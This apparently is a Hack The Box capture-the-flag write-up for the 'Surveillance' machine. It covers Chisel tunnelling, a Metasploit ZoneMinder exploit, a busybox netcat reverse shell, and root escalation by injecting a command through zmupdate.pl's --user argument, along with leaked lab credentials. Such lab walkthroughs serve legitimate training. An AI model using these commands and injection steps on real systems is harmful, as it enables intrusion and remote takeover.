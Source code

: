 ```yaml
---
title: HTB Surveillance writeup
date: 2023-12-13 12:00:00 -000
cateogries: [Writeup, HTB]
tags: [Writeup, HTB]
---
```


# Hack The Box - Surveillance

## Summary:

The target machine, named "Surveillance," involves multiple steps for compromise. It begins with establishing a foothold as the www-data user, followed by privilege escalation through the Matthew user. The final escalation results in root access via the Zoneminder user.

### Target Information:

- **IP Address:** `<machine ip>`
- **Users:** www-data, Matthew, zoneminder

## Foothold:

### www-data to Matthew:

1. **Connect as www-data:**
   ```bash
   ssh www-data@<machine ip>
   ```
   Upon successful connection, retrieve the credentials for the Matthew user: `matthew:starcraft122490`.

### Matthew to Zoneminder:

1. **Port Forwarding with Chisel:**
   - Utilize Chisel for secure and efficient port forwarding.
     ```bash
     # Run Chisel server at attacker's machine
     ./chisel server --port 1337 --reverse --socks5
     ```

     ```bash
     # Transfer Chisel to victim's PC
     python -m http.server 8888
     wget <your_ip>:8888/chisel
     chmod +x chisel
     ./chisel client <your_ip>:1337 R:<victim_port>:127.0.0.1:8080 &
     ```

2. **Access Zoneminder CMS:**
   - The forwarded port allows access to the Zoneminder CMS from the attacker's machine. Open the browser and navigate to `http://127.0.0.1:<victim_port>`.

3. **Exploitation with Metasploit:**
   - Utilize Metasploit to exploit a vulnerability in Zoneminder Snapshots.
     ```bash
     msfconsole
     ```

     ```bash
     use exploit/unix/webapp/zoneminder_snapshots
     ```

     ```bash
     set RHOSTS <victim_ip>
     set RPORT <victim_port>
     set LHOST <your_ip>
     set TARGETURI /
     ```

     ```bash
     exploit
     ```

     ```bash
     shell
     ```

   This sequence results in the establishment of a Meterpreter session, providing a shell on the victim machine.

### Retrieve User Flag:

4. **Locate User Flag:**
   - Once in the Meterpreter session, navigate to the user's home directory and retrieve the user flag.
     ```bash
     cat /home/Matthew/user.txt
     ```

## Privilege Escalation:

### Zoneminder to Root:

1. **Prepare Reverse Shell:**
   - Create a reverse shell script (`rev.sh`) and place it in `/tmp` on the victim machine.
     ```bash
     #!/bin/bash
     busybox nc 10.10.xx.xx 443 -e sh
     ```

2. **Start a Listener:**
   - Initiate a listener on the attacker's machine to capture the reverse shell connection at port 443.

3. **Execute Privilege Escalation Command:**
   - Run the following command as the zoneminder user to leverage the `zmupdate.pl` script for privilege escalation.
     ```bash
     sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/rev.sh)' --pass=ZoneMinderPassword2023
     ```

4. **Retrieve Root Flag:**
   - Upon execution, the reverse shell script triggers a connection to the attacker's machine. Navigate to the root directory and retrieve the root flag.
     ```bash
     cat /root/root.txt
     ```

## Conclusion:

This comprehensive approach ensures a systematic compromise of the target machine, covering initial access, privilege escalation, and retrieval of both user and root flags. It is crucial to replace placeholder values such as `<machine ip>`, `<your_ip>`, and `10.10.xx.xx` with actual values during the exploitation process. Happy hacking!
